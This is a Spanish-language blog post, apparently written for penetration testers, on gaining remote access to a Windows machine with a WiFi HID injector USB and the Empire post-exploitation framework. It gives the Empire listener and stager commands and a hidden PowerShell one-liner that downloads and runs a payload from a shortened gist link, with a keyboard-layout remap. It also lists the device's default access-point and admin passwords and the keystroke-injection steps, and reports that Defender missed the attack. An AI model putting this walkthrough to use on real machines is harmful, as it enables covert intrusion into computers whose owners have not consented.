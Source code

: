 ```yaml
---
title: "Hacking con WiFi HID Injector y Empire"
author: Adan Alvarez
classes: wide
excerpt: "En esta entrada vamos a explicar como usar de forma simple un USB WiFi HID Injector para obtener acceso a un equipo. Para esto nos ayudaremos del framework de post-explotacion Empire."
categories:
  - Herramientas
tags:
  - C2
  - Pentest
  - Red Team
---
```

En esta entrada vamos a explicar como usar de forma simple un USB WiFi HID Injector para obtener acceso a un equipo. Para esto nos ayudaremos del framework de post-explotacion [Empire](https://github.com/EmpireProject/Empire).
{: style="text-align: justify;"}

En primer lugar, ¿qué es un USB WiFi HID Injector? y ¿Dónde lo conseguimos?
{: style="text-align: justify;"}

Un USB WiFi HID Injector es un USB que consta principalmente de un [Atmega32u4](https://www.microchip.com/wwwproducts/en/ATmega32U4) y un módulo [ESP-12-F](https://www.vispo.org/2015/07/19/introduccion-al-modulo-soc-wifi-esp8266-esp-12/) para añadir capacidad Wifi. Este USB al conectarse a un equipo es reconocido como un teclado y un raton. Por lo tanto, permite a un atacante conectarse vía WiFi a este y pulsar teclas o mover el ratón.
{: style="text-align: justify;"}

Este proyecto fue presentado en el [Black Hat arsenal 2017](https://www.blackhat.com/us-17/arsenal-overview.html) y está documentado en el [GitHub](https://github.com/whid-injector/WHID) del diseñador, donde podemos encontrar dónde adquirirlo.
{: style="text-align: justify;"}

En nuestro caso lo compramos en [Aliexpress](https://es.aliexpress.com/item/Cactus-Micro-compatible-board-plus-WIFI-chip-esp8266-for-atmega32u4/32318391529.html).
{: style="text-align: justify;"}

[![USB Wifi HID injector](https://donttouchmy.net/wp-content/uploads/2018/02/IMG_20180113_191809-300x225.jpg)](https://donttouchmy.net/wp-content/uploads/2018/02/IMG_20180113_191809.jpg) [![USB Wifi HID injector](https://donttouchmy.net/wp-content/uploads/2018/02/IMG_20180114_141443-300x225.jpg)](https://donttouchmy.net/wp-content/uploads/2018/02/IMG_20180114_141443.jpg)

Tal y como se indica en el GitHub estos USB ya llevan precargado ESPloitV2 por lo que podemos conectarlo y comenzar a jugar.
{: style="text-align: justify;"}

Configuración de Empire
-----------------------

Antes de poder seguir necesitaremos crear nuestro payload con Empire. En el siguiente [enlace](http://www.powershellempire.com/?page_id=110) encontraréis una pequeña guía rápida de Empire.
{: style="text-align: justify;"}

Primero de todo creamos nuestro listener:
{: style="text-align: justify;"}
´´´
uselistener http
´´´
[![Empire](https://donttouchmy.net/wp-content/uploads/2018/02/Empire1-300x150.png)](https://donttouchmy.net/wp-content/uploads/2018/02/Empire1.png)

Configuramos el puerto y la IP  en la que escuchará Empire:
{: style="text-align: justify;"}
´´´
set Host http://198.51.100.2:8081
set Port 8081
´´´
[![Empire](https://donttouchmy.net/wp-content/uploads/2018/02/Empire2-300x166.png)](https://donttouchmy.net/wp-content/uploads/2018/02/Empire2.png)

Después de esto generamos nuestro payload:
{: style="text-align: justify;"}
´´´
back
usestager windows/ducky
set Listener http
execute
´´´
[![Empire](https://donttouchmy.net/wp-content/uploads/2018/02/Empire4-300x143.png)](https://donttouchmy.net/wp-content/uploads/2018/02/Empire4.png)

Del payload obtenido la última línea será la que utilizaremos en nuestro ataque.
{: style="text-align: justify;"}

Preparando el payload
---------------------

Podríamos injectar el payload obtenido directamente a través del USB, pero tras varias pruebas realizadas el funcionamiento no es el correcto cuando la cadena de texto es tan larga.
{: style="text-align: justify;"}

Por lo tanto, utilizaremos gist.github.com para guardar allí nuestro payload  y en el ordenador de la víctima llamaremos a Powershell para que lo descargue mediante un acortador de Google
{: style="text-align: justify;"}
´´´
powershell -w 1 -nop -noni -c «IEX (New-Object Net.Webclient).downloadstring('https://goo.gl/XXXXX')»
´´´
Por lo tanto, primero generamos nuestro gist.github.com con el payload:
{: style="text-align: justify;"}

[![Gist](https://donttouchmy.net/wp-content/uploads/2018/02/gist-300x83.png)](https://donttouchmy.net/wp-content/uploads/2018/02/gist.png)

y generamos un link [acortado de google](https://goo.gl/) a nuestro gist en modo raw:

[![google](https://donttouchmy.net/wp-content/uploads/2018/02/2018-02-17_10-35-27-300x117.png)](https://donttouchmy.net/wp-content/uploads/2018/02/2018-02-17_10-35-27.png)

Con esto podríamos ejecutar la línea mencionada anteriormente en una consola powershell y tendríamos acceso al ordenador de la víctima. El problema que nos encontraremos al escribir la línea mediante el USB es el teclado español. El USB está configurado para pulsar las teclas como si el teclado destino fuera inglés. Por lo tanto, si realizamos un ataque a un equipo con teclado español deberemos cambiar los caracteres especiales. Para nuestra línea los cambios serían los siguientes:
{: style="text-align: justify;"}

Substituimos - por /
Substituimos " por @
Substituimos ( por  *
Substituimos ' por -
Substituimos : por >
Substituimos / por &
Substituimos ) por (

Quedando por lo tanto la siguiente línea:
{: style="text-align: justify;"}
´´´
powershell /w 1 /nop /noni /c @IEX *New-Object Net.Webclient(.downloadstring*-https>&&goo.gl&XXXX-(@
´´´
Donde XXXX es el link acortado de Google.

Con esto ya podemos ejecutar nuestro ataque.

Cargar el payload con el USB Wifi HID injector
----------------------------------------------

Al conectar el USB a un ordenador, este creará un punto de acceso con SSID «Exploit» al que nos podremos conectar con la contraseña: DotAgency
{: style="text-align: justify;"}

Una vez conectados, en este caso con un móvil, accedemos con un navegador a http://192.168.1.1 y con los datos:

User: admin

Password: hacktheplanet

[![ESPloit](https://donttouchmy.net/wp-content/uploads/2018/02/Screenshot_20180217-103631-169x300.png)](https://donttouchmy.net/wp-content/uploads/2018/02/Screenshot_20180217-103631.png)

En este menú principal hacemos clic en Input Mode y nos llevará a una pantalla donde podremos gestionar el ratón y el teclado.
{: style="text-align: justify;"}

[![ESPloit](https://donttouchmy.net/wp-content/uploads/2018/02/Screenshot_20180217-103716-169x300.png)](https://donttouchmy.net/wp-content/uploads/2018/02/Screenshot_20180217-103716.png)

En esta lanzaremos nuestro ataque de forma sencilla.
{: style="text-align: justify;"}

Pulsamos sobre el botón GUI+r

escribiremos:
´´´
PrintLine: powershell
´´´
y haremos clic en Send Text+Enter

Después de esto escribiremos:
´´´
PrintLine: powershell /w 1 /nop /noni /c @IEX *New-Object Net.Webclient(.downloadstring*-https>&&goo.gl&XXXX-(@
´´´
[![](https://donttouchmy.net/wp-content/uploads/2018/02/2018-02-17_18-34-49-300x131.png)](https://donttouchmy.net/wp-content/uploads/2018/02/2018-02-17_18-34-49.png)

y haremos clic de nuevo en Send Text+Enter

Tras esto podemos volver a nuestra máquina con Empire y verificar que tenemos un nuevo agente !

[![Empire](https://donttouchmy.net/wp-content/uploads/2018/02/2018-02-17_16-47-33-300x54.png)](https://donttouchmy.net/wp-content/uploads/2018/02/2018-02-17_16-47-33.png)

En nuestro caso realizamos el ataque en una máquina Windows 10 actualizada y con defender activo.  Defender no detectó el ataque en ningún momento.

En próximos post detallaremos más funcionalidades del USB y métodos de defensa.